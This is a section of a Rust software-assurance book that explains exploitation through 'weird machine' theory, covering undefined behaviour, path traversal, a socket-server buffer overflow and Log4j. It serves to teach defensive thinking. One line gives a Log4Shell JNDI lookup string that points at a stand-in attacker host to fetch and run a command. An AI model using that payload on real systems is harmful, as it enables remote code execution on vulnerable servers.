



# An Attacker's Perspective: Unifying Theory (2/2)

A motivated adversary has the time and resources to discover vulnerabilities.
And weaponize the corresponding exploits.
In industry, we see evidence constantly.
A stream of CVEs/PoCs and patches gets logged in release notes.
Companies are plagued by breaches and incidents, users by malware and fraud.
From Google's analysis[^ProjZero2021Review] of exploits used in the wild:

> Memory corruption vulnerabilities have been the standard for attacking software for the last few decades and it's still how attackers are having success.

Software assurance is broader in scope than vulnerability elimination.
To paraphrase the [full DoD definition](https://highassurance.rs/chp2/_index.html#software-assurance) from chapter 2 - **assurance** is a level of confidence that a specific software[^DoD]:

1. *"is free of vulnerabilities"*
2. *"functions as intended"*

Memory and type safety violations can compromise both (1) security and (2) general functionality.
They *degrade confidence significantly* for *both* the above assurance criteria.

> **By the way, what's the inspiration for this book's title?**
>
> "High Assurance" is not a standard term, it means different things to different people.
> Could debate whether or not its a suitable title for this book!
>
> Our title draws inspiration from a 2014 DARPA research program[^HACMSMain].
> The "High Assurance Cyber Military Systems (HACMS)" program investigated applications of formal methods to cyber-physical embedded systems.
> With the goal of using principled, mathematically rigorous approaches to gain confidence in the security and functionality of critical software (software assurance).
>
> The program investigated a wide range of approaches and techniques[^HACMSPaper].
> One participating team invented a Domain Specific Language (DSL)[^Galois].
> This functional, Haskell-like language had two important properties:
>
> 1. **Memory safe** - Strong guarantee that the output executable would not contain spatial or temporal memory safety violations.
>
> 2. **No heap usage** - Only static and stack memory is used during program execution. Bolstering reliability (worst case execution time not dependent on heap state, operations cannot fail due to heap exhaustion) and portability (programs can be deployed on tiny microcontrollers).
>
> Those DSL properties should sound awfully familiar.
> Rust can largely achieve (1) with the `#![forbid(unsafe_code)]` attribute and (2) with `#![no_std]`.
>
> It's tempting to claim that Rust is a commercially-viable, increasingly-popular programming language which can achieve the same assurance criteria as a novel DSL in a relatively-recent, cutting-edge, government-funded research program.
> That's an extraordinary claim.
>
> But is it actually true?
> How exactly, in terms of concrete implementation, can a programmer achieve those high assurance properties?
> What context, limitations, and insights underpin this goal?
> More importantly, can we combine Rust with other open-source tools, industry best practices, and research findings to push the assurance level *even higher*?

## Building a Mental Framework for Exploitation

We're going to stray into theoretical territory for a bit.
Don't worry, there'll be a hands-on exercise later in the chapter.
But first - things are going to be abstract, even *weird*.

Consider the potential behaviors of a program, across all possible executions, visualized as overlapping sets [^SetNote]:

 

  
  <figure>
  <figcaption>
Conceptualizing assurance relative to kinds of behavior a program may exhibit across all possible executions.
</figcaption> 
  </figure>

In the context of binary exploitation, we can think of exploits as malicious behavior that's a strict subset[^ExpSub] of Undefined Behavior (UB).

For exploitation generally, outside of memory safety violations, there may be no subset relation. Perhaps the malicious set only intersects the UB set and the actual set (three overlapping circles, without two concentric).

  * Example exploit: **path/directory traversal**[^DirTrav]. In a client-server context, returning a file by path is defined, intended behavior. But if a sensitive file is exposed to a less-trusted client - we may have a critical vulnerability. Especially if the client can write the file.

What is a path traversal attack, exactly?
OWASP offers a clear definition[^DirTrav], excerpt:

> By manipulating variables that reference files with "dot-dot-slash (../)" sequences and its variations or by using absolute file paths, it may be possible to **access arbitrary files** and directories stored on [the] file system including **application source code** or **configuration** and critical **system files**...

Consider the scenario labeled **Actual Behavior (Average Assurance)** in the above diagram.
Even if the program passes all tests and works most of the time, there are cases in which it may fail in production (e.g. an inexplicable error, the rare race condition, any prior or future vulnerability)[^UBNote].

Ideally, a program would maintain correct function for any input and under any circumstance.
It's set of behaviors would:

* Intersect with *every correct action* the actual set contains (above diagram not to scale).

* Implement *additional correct behavior*, covering use cases and edge cases the actual set fails to.

* Be *mutually exclusive* from the undefined set - including its malicious subset.

This scenario is labeled **Ideal Behavior (Highest Assurance)** above.
No such ideal program exists.
Our goal, as defenders and developers of high assurance software, is to *approximate this ideal set* as closely as possible.

But for the remainder of this section we'll return to the attackers perspective.
We're going to dig deeper into that red circle - the malicious set.

## The "Weird Machine" Theory of Exploitation

What do memory corruption exploits (e.g. control flow hijacking, code injection, code reuse) have in common?
At a fundamental level, they're means by which an attacker *re-writes* part of your program.
Or, as one school of thought frames it, attackers develop for a tiny, constrained machine *inside* of your program.
Bratus et. al.[^WeirdMachine] pose that an abstract "weird machine" executes the attacker's data/code.

This conceptualization might make more sense if we start from what a "normal machine"[^IFSM] looks like.
We'll use network sockets as an example and diagram two state machines: one normal, one weird.

> **Network Socket Basics**
>
> Sockets are a way to represent the endpoint of a network connection.
> They allow processes to treat sending/receiving data over a network much like writing/reading a local file.
> Regardless of the underlying network protocol.
>
> Socket communication assumes two kinds of entities: a client and server.
> Clients are active, they initiate connection requests on a user's behalf.
> Servers are passive, they wait to receive a connection before serving the requested content.

Imagine a web server which uses the POSIX sockets API[^PosixSock] to accept incoming network connections.
This standard interface describes sockets as having five states:

1. **Ready** - an initial state for a newly created socket.
2. **Bound** - bound to a network address (likely IP and port number).
3. **Listening** - listening for incoming connections.
4. **Open** - ready to send and receive data (stays in this state while actually transmitting).
5. **Closed** - no longer active, the session has ended.

Visually, we can represent a server's socket as the below Finite State Machine (FSM).
We assume it encodes **Actual Behavior**.

 

  
  <figure>
  <figcaption>
POSIX Socket API FSM (server focus)
</figcaption> 
  </figure>

An average user's requests are processed by this *normal machinery*:

* The server starts up ("Ready"), binds a socket, and begins listening for requests ("Bound" -> "Listening" transition above).

* A user connects to request a given webpage - at which point the server accepts the connection, opens the socket ("Listening" -> "Open") and transmits the requested content (staying "Open").

* With transmission complete, the socket is closed ("Open" -> "Closed"). Page contents render in the client user's browser.

Nothing untoward occurs.

Now imagine this server has been misconfigured: it reports its exact software and version number when an error page is hit by any client (information leakage, poor operational assurance).
Now an attacker can "fingerprint" the server's software.

Worse yet: say the reported version is out of date - it contains a spatial memory safety vulnerability in the web server's request parsing logic.
This particular software version uses a fixed-size stack buffer to process a certain HTTP header that, when well formed, should comfortably fit.

But there's no bounds check on string copy into the buffer.

An attacker creates a specially crafted request that overflows the buffer, leverages code re-use to call `libc` functions, and ultimately spawns a shell that will take additional and arbitrary commands over the active socket.
Here, request data has been processed by a *weird machine*!

* Memory safety is broken (vulnerability), the overly-long header field's data becomes code interpreted as a sort of ad hoc, secondary program.

* Each snippet of data written past the end of the buffer becomes a "weird instruction" borrowed from the code already present (code reuse).

* A sequence of such instructions co-opts program execution and forces the CPU under the control of a weird program's state machine (exploit).

In our example, the weird machine has two states:

1. **Buffering** - receiving characters to build a command string.
2. **Executing** - running a command as a shell subprocess.

A 2nd, malicious, shadow-machine is always present just beneath the surface.
Just waiting to be activated, to emerge.
In any non-ideal program.

Visually, we transition to the weird machine from the normal machine's "Open" state if an exploit payload is received by the server.
Recall we assumed **Actual Behavior** - in reality that means overlap with two other families of behaviors:

* The vulnerable header field parsing happened in the open state. This state introduced **Undefined Behavior (UB)**.

* An attacker leveraged UB to craft an exploit. Programming their own **Malicious Behavior** finite state machine.

 

  
  <figure>
  <figcaption>
Weird machine ("Attacker FSM") programmed via remote exploit payload against normal machine ("Programmer FSM").
</figcaption> 
  </figure>

Finding and executing a weird machine like this one is proof-by-counterexample for the insecurity of a program.
To quote Bratus et. al., exploits demonstrate[^WeirdMachine]:

> ...an *execution model and mechanism* that is explicitly or implicitly present in the attacked environment - unbeknownst to most of its users or administrators...The attack then comes as a *constructive proof* that such unforeseen computations are indeed possible, and therefore as *evidence* that the target actually includes the described [weird] execution model.
>
> *Exploit programming* has been a productive empirical study of these accidental or unanticipated machines and models and of the ways they emerge from bugs, composition, and cross-layer interactions.

For readers wanting a formal proof, Dullien further solidifies the weird machine model with mathematical rigor[^FormalWeirdness]. Notably, Dullien's work differs from our coverage of exploitation in two interesting ways:

1. He offers a formal proof of *non-exploitability* for a theoretical program's finite state machine. To demonstrate that such a proof is possible to construct under specific constraints, even if impractical.

    * We do not attempt to prove non-exploitability for any programs in this book. Regardless - this is a powerful idea significant to our understanding computer security as a science.

2. He demonstrates the exploitability (proof-by-counterexample) of a different implementation of that same theoretical program *without* altering control flow.

    * We won't demonstrate any exploit maintaining perfect control flow integrity in this book. Just know that "data-oriented attacks" are possible (even if uncommon) examples of weird machine programming.

> **Weird Machines are Universal**
>
> There's more than one way to skin a ~~cat~~ state machine.
> We contextualized the above diagram within binary exploitation, but it would accurately represent memory-safe command injection.
> In fact, Java's Log4J CVE-2021-44228[^Log4J] enables a stable, widely applicable weird machine with similar Remote Code Execution (RCE) semantics.
>
> At a high-level, Log4J exploitation works like this[^ComputerphileLog4J]:
>
> * Production-grade software leverages logging frameworks to aid with error diagnosis, anomaly detection, and system monitoring. Apache Log4j is a leading logging library for Java, so it's nearly ubiquitous in-the-wild.
>
> * Log4j supports a macro-like syntax for meta-programming of log messages. For example, the string `${java:version}` would be expanded and logged as `Java version X.Y.Z_XYZ` - fingerprinting the host's currently installed Java software.
>
> * Many log sites in a codebase write external, attacker-controlled values directly into the logged string. A host's User Agent is one example, since it can be configured. Coupled with expansion/meta-programming, we lose a **non-repudiation** property - the attacker controls log message contents and can falsify data to cover their tracks.
>
> * It gets worse: we also lose all assurance as well. As of 2013, Log4j offers integration with the Java Naming and Directory Interface (JNDI). This functionality, intended for remote lookups, allows fetching and running Java classes from a remote server. If an attacker can get a string like `${jndi:ldap://evildomain.net:1337/Basic/Command/Base64/SOME_BASE64_CMD}` into a log[^HutchinsLog4J], the victim's host will connect to an attacker-controlled server, fetch an arbitrary malicious command, and execute it locally.
>
> In this example of command injection, the weird machine is programmed with a specially crafted string addressing an attacker-controlled server.
> Untrusted log data becomes code executed with the privileges of the victim process.
>
> The vulnerability is not a memory safety violation, it's a configuration flaw: an unintended composition of esoteric features that should have been disabled by default.
> It could have happened within a Rust logging library, if one offered an equivalent feature set that likewise wasn't securely designed.

## Takeaway

The behavior of any realistic, sufficiently large program includes *some* Undefined Behavior (UB).
This is also true for Rust programs - unless every last dependency is `#![forbid(unsafe_code)]`, no CFFI functions are called, and none of the program's code triggers a known or unknown bug `rustc` itself.

In binary exploitation, an attacker leverages UB to elicit malicious behavior.
They co-opt program execution to perform nefarious operations.

That's possible because almost all programs contain the building blocks of another, unintended program.
Those building blocks constitute a "weird machine".
When attackers write working exploits, they're, in essence, developing a new application for this inner machine.

In the abstract game that is computer security, an attacker wins if they can successfully leverage any weird machine they discover.
In practice, a defender cannot eliminate weird machines entirely.
From an computability perspective, turing-completeness[^TuringComplete] gives the attacker a significant advantage.

Defenders strive to reduce and/or detect possible transitions out of the normal states and into the weird ones.
Strongly-enforced memory and type-safety eliminate *a great deal* of possible transitions to malicious states.

With that high-level conceptualization in mind, let's learn our way around a debugger and start dabbling in weird machine development ourselves.

<!--
In the next section, we'll put these concepts into play hands-on to reduce secret exposure on an untrusted host.
-->

---

[^ProjZero2021Review]: [*The More You Know, The More You Know You Don't Know*](https://googleprojectzero.blogspot.com/2022/04/the-more-you-know-more-you-know-you.html). Maddie Stone, Google Project Zero (2022).

[^DoD]: [*DoD Software Assurance Initiative*](https://www.acqnotes.com/Attachments/DoD%20Software%20Assurance%20Initiative.pdf). Mitchell Komaroff, Kristin Baldwin (2005, Public Domain)

[^HACMSMain]: [*High-Assurance Cyber Military Systems (HACMS) (Archived)*](https://www.darpa.mil/program/high-assurance-cyber-military-systems). DARPA (Accessed 2023).

[^HACMSPaper]: [*The HACMS program: using formal methods to eliminate exploitable bugs*](https://www.ncbi.nlm.nih.gov/pmc/articles/PMC5597724/pdf/rsta20150401.pdf). Kathleen Fisher, John Launchbury, Raymond Richards (2017).

[^Galois]: [*HACMS (High-Assurance Cyber Military Systems)*](https://galois.com/project/hacms-high-assurance-cyber-military-systems/). Galois (Accessed 2023).

[^SetNote]: Note the behavior of any given program of sufficient complexity, in all likelihood, is a large set that has *some* overlap with both the malicious and undefined sets. Remember we're talking about all possible executions - for any possible input - and there is no absolute security. Nor absolute assurance.

[^ExpSub]: This assumption doesn't always hold. For example, command injection vulnerabilities (e.g. Log4J) make for extremely reliable and powerful exploits yet their effects are defined as far as a language specification is concerned. We still have a well-defined program that faithfully executed the provided command - it just wasn't the author-intended command!

[^DirTrav]: [*Path Traversal*](https://owasp.org/www-community/attacks/Path_Traversal). OWASP (Accessed 2023).

[^UBNote]: Recall the concept of a UB "time bomb" from Chapter 3 - a program can work as expected despite relying on UB. At least until a subtle change in toolchain or a specially crafted input triggers it.

[^WeirdMachine]: [*Exploit Programming: From Buffer Overflows to "Weird Machines" and Theory of Computation*](https://www.usenix.org/system/files/login/articles/105516-Bratus.pdf). Sergey Bratus, Michael Locasto, Meredith Patterson, Len Sassaman, and Aanna Shubina (2011).

[^IFSM]: What we call the "normal machine" is what Dullien[^FormalWeirdness] refers to as the *Intended Finite State Machine (IFSM).* We can think of any software program as an *approximation* of an abstract IFSM (here, the states of an ideal POSIX web server) emulated atop a CPU's low-level FSM (as specified by architecture manuals). "Approximation" because programs have bugs. The subset of bugs which are vulnerabilities allow breaking out of IFSM states and into emergent, weird FSM states.

[^PosixSock]: [*Berkeley sockets*](https://en.wikipedia.org/wiki/Berkeley_sockets). Wikipedia (Accessed 2022).

[^FormalWeirdness]: [*Weird Machines, Exploitability, and Provable Unexploitability*](https://ieeexplore.ieee.org/stamp/stamp.jsp?arnumber=8226852). Thomas Dullien (2017).

[^TuringComplete]: [*Turing Completeness*](https://en.wikipedia.org/wiki/Turing_completeness). Wikipedia (Accessed 2022).

[^Log4J]: [*Apache Log4j Vulnerability Guidance*](https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance). CISA (2021).

[^ComputerphileLog4J]:  [*Log4J & JNDI Exploit: Why So Bad?*](https://www.youtube.com/watch?v=Opqgwn8TdlM). Computerphile (2021).

[^HutchinsLog4J]:  [*Log4j (CVE-2021-44228) RCE Vulnerability Explained*](https://www.youtube.com/watch?v=0-abhd-CLwQ). Marcus Hutchins (2021).